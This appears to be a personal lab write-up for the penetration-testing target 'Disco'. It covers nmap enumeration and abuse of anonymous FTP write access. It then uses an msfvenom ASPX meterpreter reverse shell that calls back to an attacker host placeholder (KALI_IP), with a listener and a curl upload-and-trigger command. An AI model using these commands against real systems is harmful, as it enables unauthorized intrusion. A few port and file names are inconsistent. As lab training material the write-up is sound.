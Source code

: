 # Disco (10.11.1.13)
****
## Enumeration
1. Enumerate running services using `nmap`
```
nmap -sV -sC -Pn 10.11.1.13
```

2. `nmap` was able to detect several running services, but for this machine, the area of interest is the **FTP** service running on port **21**, and the **HTTP** service running on port **4176**
   

``` 
21/tcp    open  ftp          syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-07-19  10:25PM       <DIR>          aspnet_client
| 04-07-19  07:14PM                99710 iis-85.png
|_04-07-19  07:14PM                  701 iisstart.htm
| ftp-syst: 
|_  SYST: Windows_NT
...
...
4167/tcp  open  http         syn-ack Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
```

3. Notice that `nmap` was able to detect that FTP anonymous login is enabled. We should be able to confirm this by connecting into the FTP server using the command 
   `ftp anonymous@10.11.1.13`
   
```
$ ftp anonymous@10.11.1.13
Connected to 10.11.1.13.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: [ENTER]
230 User logged in.
Remote system type is Windows_NT.
```   

4. While logged-in, we check our privileges using the command `ls` - to check if we have a read access, and `put test.txt` - to check if we can upload files 

```
ftp> ls
229 Entering Extended Passive Mode (|||49177|)
125 Data connection already open; Transfer starting.
04-07-19  10:25PM       <DIR>          aspnet_client
04-07-19  07:14PM                99710 iis-85.png
04-07-19  07:14PM                  701 iisstart.htm
226 Transfer complete.
ftp> put local-file.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49178|)
125 Data connection already open; Transfer starting.
100% |*************************|  16  214.04 KiB/s    --:-- ETA
226 Transfer complete.
```

> [!note] 
> Take note of the file `iis-85.png` 

5. Using a browser, navigate to `http://10.11.1.13:4167/` and we should see an **IIS Windows Server** landing page. Checking on the source code, we should see a reference to a file we saw earlier on the FTP server - the file `iis-85.png`.
   ![[iis-85.png]]
   
6. We should be able to confirm if this is indeed where the FTP files are being uploaded by checking the existence of the `test.txt` file we used earlier when testing for write access.   
![[disco-test.png]]

***

## Exploitation

1. Since the target is running an **IIS Windows Server**, we need to use ASPX to establish a reverse shell. We can use **MSFVenom** to generate an ASPX shell.   
```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=KALI_IP LPORT=9001 -f aspx > shell.aspx 
```

> [!note] 
> Replace the `KALI_IP` with your Kali's IP address 

2. Spawn a meterpreter listener to catch the shell.
```
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost KALI_IP; set lport 9001; exploit"
```

> [!note] 
> Replace the `KALI_IP` with your Kali's IP address 

3. Upload and initiate the shell using the following commands
   
```
curl -u anonymous: -T shell.aspx ftp://10.11.1.13/shell.aspx && curl http://10.11.1.13:4167/shell.aspx
```

4. After some time, we should get a meterpreter session running as 
   `IIS APPPOOL\DefaultAppPool`.

   ![[disco-meterpreter.png]]

***
## Post-exploitation
1. From meterpreter, we can check our current privileges using the command `getprivs`
   
![[disco-http-privs.png]]

> [!missing] 
> We're currently stuck into this. Although we have a feeling that this is more likely vulnerable to a **Windows Previlege Escalation** exploit called [`Potato`](https://pentestlab.blog/2017/04/13/hot-potato/), we could not make it work for some reason. 